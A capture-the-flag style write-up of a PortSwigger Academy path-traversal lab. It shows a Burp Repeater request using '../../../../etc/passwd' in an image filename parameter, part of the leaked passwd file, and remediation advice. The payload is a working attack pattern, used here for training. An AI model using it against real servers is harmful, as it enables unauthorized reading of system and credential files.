

# Lab 01: File Path Traversal (Simple Case)

## 🎯 Objective
To read the contents of the `/etc/passwd` file from the server by exploiting a path traversal vulnerability in the product image loading functionality.

## 🛠️ Environment & Tools Used
*   **Target:** PortSwigger Web Security Academy (Lab Instance)
*   **Tool:** Burp Suite Professional (Proxy & Repeater)

## 🔍 Vulnerability Analysis
The application uses a `filename` parameter to retrieve images from the server (e.g., `GET /image?filename=60.jpg`). The application fails to sanitize user input, allowing the use of relative path sequences (like `../`) to traverse outside the intended image directory.

## 💥 Exploitation Steps

### 1. Intercept the Request
While browsing the website, I enabled the Burp Suite Proxy and intercepted the request for a product image. The HTTP History tab shows the initial request for the image `60.jpg`:



### 2. Modify the Payload
I sent this request to the **Repeater** and modified the `filename` parameter to traverse up the directory tree to reach the root directory and access the sensitive `/etc/passwd` file:

```http
GET /image?filename=../../../../etc/passwd HTTP/2
Host: [lab-id].web-security-academy.net
3. Verify Result
Upon sending the modified request, the server responded with HTTP 200 OK, and the response body contained the contents of the /etc/passwd file:

text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
https://./burp-repeater.png

✅ Lab Solved!

https://./solved.png

🛡️ Remediation (How to Fix)
To prevent Path Traversal vulnerabilities, developers should:

Avoid passing file paths directly: Use an index or a database ID to map to files instead of taking user input as a file path.

Input Validation: Sanitize the input by removing or blocking path traversal sequences (e.g., ../, ..\).

Use a Whitelist: Implement a whitelist of allowed filenames or extensions.

File Permissions: Ensure the web server process runs with the minimum necessary privileges (Principle of Least Privilege) so that even if traversed, critical files remain inaccessible.

Writeup by Tanmay Sarkar Emon
